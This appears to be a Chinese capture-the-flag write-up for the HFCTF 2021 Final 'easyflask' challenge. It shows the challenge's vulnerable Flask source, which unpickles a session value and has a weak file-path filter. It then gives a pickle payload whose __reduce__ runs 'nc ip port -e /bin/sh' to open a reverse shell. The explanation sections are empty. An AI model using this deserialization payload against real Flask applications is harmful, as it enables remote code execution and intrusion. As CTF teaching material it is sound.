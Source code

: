 # 原创
：  HFCTF-2021-Final-easyflask

# HFCTF-2021-Final-easyflask

#### HFCTF-2021-Final-easyflask

## 考点

> 
Python os.path.join trick、环境变量暴露敏感信息、pickle 反序列化 RCE、Flask Session 伪造


## 思路

> 



> 



> 



## Payload

> 
/app/source源码信息


```
#!/usr/bin/python3.6
import os
import pickle

from base64 import b64decode
from flask import Flask, request, render_template, session

app = Flask(__name__)
app.config["SECRET_KEY"] = "*******"

User = type('User', (object,), {
    'uname': 'test',
    'is_admin': 0,
    '__repr__': lambda o: o.uname,
})


@app.route('/', methods=('GET',))
def index_handler():
    if not session.get('u'):
        u = pickle.dumps(User())
        session['u'] = u
    return "/file?file=index.js"


@app.route('/file', methods=('GET',))
def file_handler():
    path = request.args.get('file')
    path = os.path.join('static', path)
    if not os.path.exists(path) or os.path.isdir(path) \
            or '.py' in path or '.sh' in path or '..' in path or "flag" in path:
        return 'disallowed'

    with open(path, 'r') as fp:
        content = fp.read()
    return content


@app.route('/admin', methods=('GET',))
def admin_handler():
    try:
        u = session.get('u')
        if isinstance(u, dict):
            u = b64decode(u.get('b'))
        u = pickle.loads(u)
    except Exception:
        return 'uhh?'

    if u.is_admin == 1:
        return 'welcome, admin'
    else:
        return 'who are you?'


if __name__ == '__main__':
    app.run('0.0.0.0', port=80, debug=False)

```

> 
/proc/self/environ内容


> 
Payload构造


```
import pickle
from base64 import b64encode
import os

User = type('User', (object,), {
    'uname': 'test',
    'is_admin': 1,
    '__repr__': lambda o: o.uname,
    '__reduce__': lambda o: (eval, ("__import__('os').system('nc ip port -e /bin/sh')",))

})
u = pickle.dumps(User())
print(b64encode(u).decode())

```
